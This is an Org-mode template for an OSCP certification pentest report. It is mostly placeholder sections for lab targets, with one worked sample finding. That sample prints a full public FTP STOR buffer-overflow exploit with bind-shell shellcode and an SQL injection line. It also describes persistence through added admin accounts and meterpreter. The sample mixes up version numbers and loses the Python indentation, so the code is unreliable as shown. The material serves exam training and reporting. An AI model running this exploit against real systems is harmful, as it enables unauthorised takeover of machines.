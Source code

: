 #+TITLE: Offensive Security Certified Professional Exam Report
#+SUBTITLE: OSCP Exam Report
#+AUTHOR: YOUR-EMAIL, OSID: OS-99999999
#+DATE: 2023-08-12
#+LaTeX_HEADER: \usepackage{etex}

* Offensive Security OSCP Exam Report

** Introduction
   The Offensive Security Exam penetration test report contains all
   efforts that were conducted in order to pass the Offensive Security
   course.

   This report should contain all items that were used to pass the
   overall exam and it will be graded from a standpoint of correctness
   and fullness to all aspects of the exam.  The purpose of this report
   is to ensure that the student has a full understanding of penetration
   testing methodologies as well as the technical knowledge to pass the
   qualifications for the Offensive Security Certified Professional.

** Objective
   The objective of this assessment is to perform an internal
   penetration test against the Offensive Security Lab and Exam
   network.  The student is tasked with following methodical approach
   in obtaining access to the objective goals.

   This test should simulate an actual penetration test and how you
   would start from beginning to end, including the overall report.

   An example page has already been created for you at the latter
   portions of this document that should give you ample information on
   what is expected to pass this course. Use the sample report as a
   guideline to get you through the reporting.

** Requirements
   The student will be required to fill out this penetration testing
   report fully and to include the following sections:

   - Overall High-Level Summary and Recommendations (non-technical)

   - Methodology walkthrough and detailed outline of steps taken

   - Each finding with included screenshots, walkthrough, sample code,
     and proof.txt if applicable.

   - Any additional items that were not included

* High-Level Summary
  # CHANGE THIS

  John Doe was tasked with performing an internal penetration test
  towards Offensive Security Labs.  An internal penetration test is a
  dedicated attack against internally connected systems.  The focus of
  this test is to perform attacks, similar to those of a hacker and
  attempt to infiltrate Offensive Security's internal lab systems -
  the THINC.local domain.  John's overall objective was to evaluate
  the network, identify systems, and exploit flaws while reporting the
  findings back to Offensive Security.

  When performing the internal penetration test, there were several
  alarming vulnerabilities that were identified on Offensive
  Security's network.  When performing the attacks, John was able to
  gain access to multiple machines, primarily due to outdated patches
  and poor security configurations.  During the testing, John had
  administrative level access to multiple systems.  All systems were
  successfully exploited and access granted.  These systems as well as
  a brief description on how access was obtained are listed below:

  - Active Directory Set:
    - HOSTNAME - Name of initial exploit
    - HOSTNAME - Name of initial exploit
    - HOSTNAME - Name of initial exploit
  - Standalone 1 - HOSTNAME - Name of initial exploit
  - Standalone 2 - HOSTNAME - Name of initial exploit
  - Standalone 3 - HOSTNAME - Name of initial exploit

** Sample Report - Recommendations
   John recommends patching the vulnerabilities identified during the
   testing to ensure that an attacker cannot exploit these systems in
   the future. One thing to remember is that these systems require
   frequent patching and once patched, should remain on a regular
   patch program to protect additional vulnerabilities that are
   discovered at a later date.

* Methodologies
  John utilized a widely adopted approach to performing penetration
  testing that is effective in testing how well the Offensive Security
  Labs and Exam environments are secure. Below is a breakout of how
  John was able to identify and exploit the variety of systems and
  includes all individual vulnerabilities found.

  
** Information Gatherting
   The information gathering portion of a penetration test focuses on
   identifying the scope of the penetration test.  During this
   penetration test, John was tasked with exploiting the lab and exam
   network.  The specific IP addresses were:

   *Exam Network*

   172.16.203.133, 172.16.203.134, 172.16.203.135, 172.16.203.136   

** Service Enumeration
   The service enumeration portion of a penetration test focuses on
   gathering information about what services are alive on a system or
   systems.
   
   This is valuable for an attacker as it provides detailed
   information on potential attack vectors into a system.
   Understanding what applications are running on the system gives an
   attacker needed information before performing the actual
   penetration test. In some cases, some ports may not be listed.

** Maintaining Access
   Maintaining access to a system is important to us as attackers,
   ensuring that we can get back into a system after it has been
   exploited is invaluable. The maintaining access phase of the
   penetration test focuses on ensuring that once the focused attack
   has occurred (i.e. a buffer overflow), we have administrative
   access over the system again. Many exploits may only be exploitable
   once and we may never be able to get back into a system after we
   have already performed the exploit.

   John added administrator and root level accounts on all systems
   compromised. In addition to the administrative/root access, a
   Metasploit meterpreter service was installed on the machine to
   ensure that additional access could be established.

** House Cleaning
   The house cleaning portions of the assessment ensures that remnants
   of the penetration test are removed.  Often fragments of tools or
   user accounts are left on an organizations computer which can cause
   security issues down the road. Ensuring that we are meticulous and
   no remnants of our penetration test are left over is important.

   After the trophies on the exam network were completed, John removed
   all user accounts and passwords as well as the meterpreter services
   installed on the system.  Offensive Security should not have to
   remove any user accounts or services from the system.
   
* Independent Challenges
** Target #1 - 192.168.x.x

*** Service Enumeration
    |-------------------+----------------------|
    | Service IP Adress | Ports Open           |
    |-------------------+----------------------|
    |       192.168.1.1 | *TCP*: 21,22,25,80,443 |
    |-------------------+----------------------|

    *FTP Enumeration*

    _Upon manual enumeration of the available FTP service, John noticed it was running an outdated version 2.3.4 that is prone to the remote buffer overflow vulnerability_
    
*** Initial Access - Buffer Overflow

    *Vulnerability Explanation:* Ability Server 2.34 is subject to a
    buffer overflow vulnerability in STOR field. Attackers can use
    this vulnerability to cause arbitrary remote code execution and
    take completely control over the system.

    *Vulnerability Fix:* The publishers of the Ability Server have
    issued a patch to fix this known issue. It can be found here:
    http://www.code-crafters.com/abilityserver/

    *Severity:* Critical

    *Steps to reproduce the attack:* The operating system was different
    from the known public exploit. A rewritten exploit was needed in
    order for successful code execution to occur. Once the exploit was
    rewritten, a targeted attack was performed on the system which
    gave John full administrative access over the system.

    *Proof of Concept Code Here:* Modifications to the existing exploit
    was needed and is highlighted in red.

    #+begin_src python
###################################
# Ability Server 2.34 FTP STOR Buffer Overflow
# Advanced, secure and easy to use FTP Server.
# 21 Oct 2004 - muts
###################################
# D:\BO>ability-2.34-ftp-stor.py
###################################
# D:\data\tools>nc -v 127.0.0.1 4444
# localhost [127.0.0.1] 4444 (?) open
# Microsoft Windows XP [Version 5.1.2600]
# (C) Copyright 1985-2001 Microsoft Corp.
# D:\Program Files\abilitywebserver>
###################################

import ftplib
from ftplib import FTP
import struct
print "\n\n################################"
print "\nAbility Server 2.34 FTP STOR buffer Overflow"
print "\nFor Educational Purposes Only!\n"
print "###################################"

# Shellcode taken from Sergio Alvarez's "Win32 Stack Buffer Overflow Tutorial"

sc = "\xd9\xee\xd9\x74\x24\xf4\x5b\x31\xc9\xb1\x5e\x81\x73\x17\xe0\x66"
sc += "\x1c\xc2\x83\xeb\xfc\xe2\xf4\x1c\x8e\x4a\xc2\xe0\x66\x4f\x97\xb6"
sc += "\x1a\x38\xd6\x95\x87\x97\x98\xc4\x67\xf7\xa4\x6b\x6a\x57\x49\xba"
sc += "\x7a\x1d\x29\x6b\x62\x97\xc3\x08\x8d\x1e\xf3\x20\x39\x42\x9f\xbb"
sc += "\xa4\x14\xc2\xbe\x0c\x2c\x9b\x84\xed\x05\x49\xbb\x6a\x97\x99\xfc"
sc += "\xed\x07\x49\xbb\x6e\x4f\xaa\x6e\x28\x12\x2e\x1f\xb0\x95\x05\x61"
sc += "\x8a\x1c\xc3\xe0\x66\x4b\x94\xb3\xef\xf9\x2a\xc7\x66\x1c\xc2\x70"
sc += "\x67\x1c\xc2\x56\x7f\x04\x25\x44\x7f\x6c\x2b\x05\x2f\x9a\x8b\x44"
sc += "\x7c\x6c\x05\x44\xcb\x32\x2b\x39\x6f\xe9\x6f\x2b\x8b\xe0\xf9\xb7"
sc += "\x35\x2e\x9d\xd3\x54\x1c\x99\x6d\x2d\x3c\x93\x1f\xb1\x95\x1d\x69"
sc += "\xa5\x91\xb7\xf4\x0c\x1b\x9b\xb1\x35\xe3\xf6\x6f\x99\x49\xc6\xb9"
sc += "\xef\x18\x4c\x02\x94\x37\xe5\xb4\x99\x2b\x3d\xb5\x56\x2d\x02\xb0"
sc += "\x36\x4c\x92\xa0\x36\x5c\x92\x1f\x33\x30\x4b\x27\x57\xc7\x91\xb3"
sc += "\x0e\x1e\xc2\xf1\x3a\x95\x22\x8a\x76\x4c\x95\x1f\x33\x38\x91\xb7"
sc += "\x99\x49\xea\xb3\x32\x4b\x3d\xb5\x46\x95\x05\x88\x25\x51\x86\xe0"
sc += "\xef\xff\x45\x1a\x57\xdc\x4f\x9c\x42\xb0\xa8\xf5\x3f\xef\x69\x67"
sc += "\x9c\x9f\x2e\xb4\xa0\x58\xe6\xf0\x22\x7a\x05\xa4\x42\x20\xc3\xe1"
sc += "\xef\x60\xe6\xa8\xef\x60\xe6\xac\xef\x60\xe6\xb0\xeb\x58\xe6\xf0"
sc += "\x32\x4c\x93\xb1\x37\x5d\x93\xa9\x37\x4d\x91\xb1\x99\x69\xc2\x88"
sc += "\x14\xe2\x71\xf6\x99\x49\xc6\x1f\xb6\x95\x24\x1f\x13\x1c\xaa\x4d"
sc += "\xbf\x19\x0c\x1f\x33\x18\x4b\x23\x0c\xe3\x3d\xd6\x99\xcf\x3d\x95"
sc += "\x66\x74\x32\x6a\x62\x43\x3d\xb5\x62\x2d\x19\xb3\x99\xcc\xc2"
# Change RET address if need be.
buffer = '\x41'*966+struct.pack('<L', 0x7C2FA0F7)+'\x42'*32+sc # RET Windows 2000 Server SP4
#buffer = '\x41'*970+struct.pack('<L', 0x7D17D737)+'\x42'*32+sc # RET Windows XP SP2
try:
# Edit the IP, Username and Password.
ftp = FTP('127.0.0.1')
ftp.login('ftp','ftp')
print "\nEvil Buffer sent..."
print "\nTry connecting with netcat to port 4444 on the remote machine."
except:
print "\nCould not Connect to FTP Server."
try:
ftp.transfercmd("STOR " + buffer)
except:
print "\nDone."
    #+end_src

    *Proof Screenshot:*

    #+CAPTION: label
    [[./img/example_screen-300x225.png]]
    
*** Privilege Escalation - MySQL Injection

    *Vulnerability Explanation:* After establishing a foothold on
    target, John noticed there were several applications running
    locally, one of them, a custom web application on port 80 was
    prone to SQL Injection attacks. Using Chisel for port forwarding,
    John was able to access the web application. When performing the
    penetration test, John noticed error-based MySQL Injection on the
    taxid query string parameter. While enumerating table data, John
    was able to successfully extract the database root account login
    and password credentials that were unencrypted that also matched
    username and password accounts for the administrative user account
    on the system and John was able to log in remotely using RDP. This
    allowed for a successful breach of the operating system as well as
    all data contained on the system.

    *Vulnerability Fix:* Since this is a custom web application, a
    specific update will not properly solve this issue. The
    application will need to be programmed to properly sanitize
    user-input data, ensure that the user is running off of a limited
    user account, and that any sensitive data stored within the SQL
    database is properly encrypted. Custom error messages are highly
    recommended, as it becomes more challenging for the attacker to
    exploit a given weakness if errors are not being presented back to
    them.
 
    *Severity:* Critical

    *Steps to reproduce the attack:*

    *Proof of Concept Code:*

    #+begin_src sql
SELECT * FROM login WHERE id = 1 or 1=1 AND user LIKE "%root%"
    #+end_src
    
*** Post-Exploitation

    *System Proof Screenshot:*

    #+CAPTION: label
    [[./img/example_screen-300x225.png]]
    
** Target #2 - 192.168.x.x

*** Service Enumeration
    |-------------------+--------------------------------|
    | Service IP Adress | Ports Open                     |
    |-------------------+--------------------------------|
    |       192.168.1.3 | *TCP*: 1433,3389 \ *UDP:1434, 161* |
    |-------------------+--------------------------------|

    *Nmap Scan Results:*

    /Initial Shell Vulnerability Exploited/
    
    /Additional info about where the initial shell was acquired from/
    
*** Initial Access - XXX
*** Privilege Escalation - XXX
    *Vulnerability Explanation:*

    *Vulnerability Fix:*

    *Severity:*

    *Steps to reproduce the attack:*

    *Proof of Concept Code:*
    
*** Post-Exploitation
    *Proof Screenshots:*

    *proof.txt content:*
   
** Target #3 - 192.168.x.x

*** Service Enumeration

    |-------------------+--------------------------------|
    | Service IP Adress | Ports Open                     |
    |-------------------+--------------------------------|
    |       192.168.1.3 | *TCP*: 1433,3389 \ *UDP:1434, 161* |
    |-------------------+--------------------------------|

    *Nmap Scan Results:*

    /Initial Shell Vulnerability Exploited/
    
    /Additional info about where the initial shell was acquired from/
    
*** Initial Access - XXX

    *Vulnerability Explanation:*

    *Vulnerability Fix:*

    *Severity:*

    *Steps to reproduce the attack:*

    *Proof of Concept Code:*

    *Proof Screenshot:*

    *local.txt content:*
    
*** Privilege Escalation - XXX
    *Vulnerability Explanation:*

    *Vulnerability Fix:*

    *Severity:*

    *Steps to reproduce the attack:*

    *Proof of Concept Code:*
    
*** Post-Exploitation
    *Proof Screenshots:*

    *proof.txt content:*
   
* Active Directory Set
  *Port Scan Results*

  |-------------+---------------------------------|
  |  IP Address | Ports Open                      |
  |-------------+---------------------------------|
  | 192.168.x.x | *TCP*: 1433,3389 \ *UDP: 1434, 161* |
  | 192.168.x.x | *TCP*: 1433,3389 \ *UDP: 1434, 161* |
  | 192.168.x.x | *TCP*: 1433,3389 \ *UDP: 1434, 161* |
  |-------------+---------------------------------|

** Hostname1: 192.168.x.x

*** Initial Access - XXX

    *Vulnerability Explanation:*
    
    *Vulnerability Fix:*
    
    *Severity:*

    *Steps to reproduce the attack:*

    *Proof of Concept Code:*

    *Proof Screenshot:*

    *local.txt content:*
    
*** Privilege Escalation - XXX

    *Vulnerability Explanation:*
    
    *Vulnerability Fix:*
    
    *Severity:*

    *Steps to reproduce the attack:*

    *Proof of Concept Code:*

*** Post-Exploitation

    *Proof Screenshots:*

    *proof.txt content:*

** Hostname2: 192.168.x.x

*** Initial Access - XXX

    *Vulnerability Explanation:*
    
    *Vulnerability Fix:*
    
    *Severity:*

    *Steps to reproduce the attack:*

    *Proof of Concept Code:*

    *Proof Screenshot:*

    *local.txt content:*
    
*** Privilege Escalation - XXX

    *Vulnerability Explanation:*
    
    *Vulnerability Fix:*
    
    *Severity:*

    *Steps to reproduce the attack:*

    *Proof of Concept Code:*

*** Post-Exploitation

    *Proof Screenshots:*

    *proof.txt content:*

** Hostname3: 192.168.x.x

*** Initial Access - XXX

    *Vulnerability Explanation:*
    
    *Vulnerability Fix:*
    
    *Severity:*

    *Steps to reproduce the attack:*

    *Proof of Concept Code:*

    *Proof Screenshot:*

    *local.txt content:*
    
*** Privilege Escalation - XXX

    *Vulnerability Explanation:*
    
    *Vulnerability Fix:*
    
    *Severity:*

    *Steps to reproduce the attack:*

    *Proof of Concept Code:* Please see Appendix 1 for the complete
    Windows Buffer Overflow code.

*** Post-Exploitation

    *Proof Screenshots:*

    *proof.txt content:*

* Additional Items

** Proof and Local Contents  
** Metasploit/Meterpreter Usage
